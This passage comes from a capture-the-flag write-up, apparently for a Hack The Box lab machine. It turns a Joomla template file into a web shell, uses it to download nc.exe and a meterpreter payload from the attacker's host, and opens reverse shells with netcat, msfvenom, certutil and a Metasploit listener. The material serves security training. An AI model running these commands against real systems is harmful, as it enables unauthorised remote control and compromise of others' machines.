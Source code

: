 Now save it and then curl:

```bash
curl http://office.htb/templates/cassiopeia/error.php?cmd=whoami
```

![curl_result](images/Office18.png)

### Phase 8: Reverse Shell via Joomla Web Shell

Now we will download nc.exe then host python server download it and get reverse shell back:

```bash
curl http://office.htb/templates/cassiopeia/error.php?cmd=powershell+iwr+10.10.14.61:8000/nc.exe+-O+nc.exe
curl http://office.htb/templates/cassiopeia/error.php?cmd=nc.exe+10.10.14.61+4444+-e+cmd.exe
```

```bash
python3 -m http.server 8000
nc -lvvp 4444
```

For whatever reasons I was able to upload nc but couldn't receive anything so let's use msfvenom and msfconsole:

Create the pauload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.61 LPORT=4444 -f exe -o shell.exe
```

Setup listener:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.61
set LPORT 4444
set ExitOnSession false
exploit -j
```

Upload and execute:

```bash
curl "http://office.htb/templates/cassiopeia/error.php?cmd=certutil.exe+-urlcache+-f+http://10.10.14.61/shell.exe+C:\\Windows\\Temp\\shell.exe"
curl "http://office.htb/templates/cassiopeia/error.php?cmd=C:\\Windows\\Temp\\shell.exe"
```

![msf_result](images/Office19.png)
